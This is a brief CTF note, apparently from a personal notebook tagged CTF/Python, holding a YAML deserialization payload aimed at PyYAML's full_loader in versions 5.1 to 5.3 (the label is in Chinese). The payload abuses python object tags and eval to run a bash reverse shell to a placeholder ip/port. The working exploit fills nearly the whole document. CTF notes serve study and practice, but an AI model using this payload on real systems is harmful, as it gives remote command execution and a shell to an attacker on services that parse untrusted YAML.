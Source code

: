 tags:: CTF/Python

- # payload
	- 针对5.1 ~ 5.3版本的full_loader函数
		- ```yaml
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/ip/port <&1\"')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  ```
-